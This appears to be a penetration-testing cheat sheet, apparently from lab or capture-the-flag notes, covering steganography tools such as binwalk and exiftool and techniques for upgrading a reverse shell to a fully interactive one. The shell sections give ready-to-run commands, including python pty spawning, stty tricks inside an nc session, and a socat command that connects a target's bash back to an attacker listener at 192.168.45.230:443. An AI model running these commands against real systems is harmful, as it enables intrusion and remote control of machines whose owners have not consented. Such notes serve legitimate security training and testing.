### Tips 
Port scanning through a tunnel can take a while, and it may be only TCP scans that work so no UDP or ICMP


## Steganography
1. Binwalk - A tool for searching binary files for embedded hidden files and data. 
	1. `binwalk $file # Displays the embedded data`
	2. `binwalk -e file # Extracts the data`
	3. `binwalk --dd ".*" $file # Extracts all data`
2. strings
	1. `strings $file`
	2. `strings -n 6 $file # Extracts strings with a minimum length of 6`
3. file
	1. `file $file`
4. exiftool
	1. `exiftool $file`



## Upgrading Shells to fully interactive

### Python
1. python -c 'import pty; pty.spawn("/bin/bash")'
2. background reverse shell using CTRL-Z
3. echo $TERM
4. stty -a
	5. Take note of the TERM type and size of the tty 
	6. Ex: xterm-256 color and rows 38; columns 116
5. Then with the reverse shell still in background "stty raw -echo"
6. fg
7. reset
8. export SHELL=bash
9. export TERM=xterm-256 color (for example)
10. stty rows 38 columns 116 

#### Full
```
python3 -c 'import pty; pty.spawn("/bin/bash")'

(inside the nc session) CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 36 columns 102; reset;
```
- You can get the number of rows and columns executing `stty -a`


## Shell Upgrades

### getting a better shell with socat
 1. From kali
- sudo socat file:'tty',raw,echo=0 tcp-listen:443
 2. From target
- socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.45.230:443

